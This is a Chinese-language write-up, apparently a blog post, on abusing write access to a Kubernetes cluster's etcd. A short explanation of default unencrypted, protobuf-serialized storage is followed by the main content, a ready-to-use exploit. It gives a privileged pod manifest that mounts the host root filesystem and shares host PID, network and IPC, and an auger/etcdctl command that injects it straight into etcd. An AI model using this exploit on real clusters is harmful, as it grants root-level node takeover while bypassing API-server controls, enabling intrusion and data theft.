


# 原理

因为薄弱的go代码基础而且调试k8s的环境很难搭建，纯肉眼看代码很难看懂。

但是感觉文章中的思路不太对，pod的数据写入etcd中应该是默认不被加密的。

在这里的代码：



实际上应该就是进行静态存储加密的过程。在不配置`--encryption-provider-config`的情况下，默认应该是identity：



所以这部分单纯的就是静态存储加密。加密完之后，阅读一下auger的实现代码，发现k8s底层实际上是把加密后的对象进行了protobuf序列化存在etcd中，所以从etcd中 读取数据进行protobuf反序列化就可以读取成功。

# exp


https://lonmar.cn/2023/02/03/hack-etcd-in-kubernetes/

（根据环境修改k8s-worker这个hostname）

```yaml
apiVersion: v1
kind: Pod
metadata:
  annotations:
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{},"labels":{"creator":"feng","team":"feng"},"name":"neartest","namespace":"default"},"spec":{"containers":[{"command":["/bin/sh","-c","tail -f /dev/null"],"image":"alpine","name":"trpc","securityContext":{"capabilities":{"add":["SYS_ADMIN"]},"privileged":true},"volumeMounts":[{"mountPath":"/host/dev","name":"dev"},{"mountPath":"/host/proc","name":"proc"},{"mountPath":"/host/sys","name":"sys"},{"mountPath":"/near_sandbox","name":"rootfs"}]}],"hostIPC":true,"hostNetwork":true,"hostPID":true,"nodeSelector":{"kubernetes.io/hostname":"k8s-worker"},"volumes":[{"hostPath":{"path":"/proc"},"name":"proc"},{"hostPath":{"path":"/dev"},"name":"dev"},{"hostPath":{"path":"/sys"},"name":"sys"},{"hostPath":{"path":"/"},"name":"rootfs"}]}}
  creationTimestamp: "2023-11-03T07:17:51Z"
  labels:
    creator: feng
    team: feng
  name: neartest
  namespace: default
  uid: 3e796737-a8d5-4421-9640-c591f1f8c283
spec:
  containers:
  - command:
    - /bin/sh
    - -c
    - tail -f /dev/null
    image: alpine
    imagePullPolicy: Always
    name: trpc
    resources: {}
    securityContext:
      capabilities:
        add:
        - SYS_ADMIN
      privileged: true
    terminationMessagePath: /dev/termination-log
    terminationMessagePolicy: File
    volumeMounts:
    - mountPath: /host/dev
      name: dev
    - mountPath: /host/proc
      name: proc
    - mountPath: /host/sys
      name: sys
    - mountPath: /near_sandbox
      name: rootfs
    - mountPath: /var/run/secrets/kubernetes.io/serviceaccount
      name: kube-api-access-sm5z8
      readOnly: true
  dnsPolicy: ClusterFirst
  hostIPC: true
  hostNetwork: true
  hostPID: true
  nodeName: k8s-worker
  nodeSelector:
    kubernetes.io/hostname: k8s-worker
  priority: 0
  restartPolicy: Always
  schedulerName: default-scheduler
  securityContext: {}
  serviceAccount: default
  serviceAccountName: default
  terminationGracePeriodSeconds: 30
  tolerations:
  - effect: NoExecute
    key: node.kubernetes.io/not-ready
    operator: Exists
    tolerationSeconds: 300
  - effect: NoExecute
    key: node.kubernetes.io/unreachable
    operator: Exists
    tolerationSeconds: 300
  volumes:
  - hostPath:
      path: /proc
      type: ""
    name: proc
  - hostPath:
      path: /dev
      type: ""
    name: dev
  - hostPath:
      path: /sys
      type: ""
    name: sys
  - hostPath:
      path: /
      type: ""
    name: rootfs
  - name: kube-api-access-sm5z8
    projected:
      defaultMode: 420
      sources:
      - {}
      - configMap:
          items:
          - key: ca.crt
            path: ca.crt
          name: kube-root-ca.crt
      - downwardAPI:
          items:
          - fieldRef:
              apiVersion: v1
              fieldPath: metadata.namespace
            path: namespace
status:
  conditions:
  - lastProbeTime: null
    lastTransitionTime: "2023-11-03T07:17:51Z"
    status: "True"
    type: Initialized
  - lastProbeTime: null
    lastTransitionTime: "2023-11-03T07:17:54Z"
    status: "True"
    type: Ready
  - lastProbeTime: null
    lastTransitionTime: "2023-11-03T07:17:54Z"
    status: "True"
    type: ContainersReady
  - lastProbeTime: null
    lastTransitionTime: "2023-11-03T07:17:51Z"
    status: "True"
    type: PodScheduled
  containerStatuses:
  - containerID: containerd://4c77da2f70e8c47f2989183002e8705442ea288f28da8c65d50279a67815ef9d
    image: docker.io/library/alpine:latest
    imageID: docker.io/library/alpine@sha256:eece025e432126ce23f223450a0326fbebde39cdf496a85d8c016293fc851978
    lastState: {}
    name: trpc
    ready: true
    restartCount: 0
    state:
      running:
        startedAt: "2023-11-03T07:17:54Z"
  hostIP: 172.19.0.2
  phase: Running
  podIP: 172.19.0.2
  qosClass: BestEffort
  startTime: "2023-11-03T07:17:51Z"
```


```bash
cat superpod-etcd.yaml|auger encode | ETCDCTL_API=3 etcdctl put /registry/pods/default/neartest
```


